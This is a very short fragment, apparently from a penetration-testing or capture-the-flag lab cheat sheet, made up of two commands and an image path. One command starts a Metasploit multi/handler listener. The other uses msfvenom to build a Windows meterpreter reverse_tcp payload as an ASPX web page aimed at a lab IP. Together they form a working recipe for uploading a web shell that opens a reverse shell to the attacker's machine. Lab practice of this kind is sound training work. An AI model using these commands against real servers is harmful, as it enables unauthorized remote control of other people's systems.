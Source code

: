 
#### metasploit 
```
 use exploit/multi/handler
```

#### aspx
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > devel.aspx
```

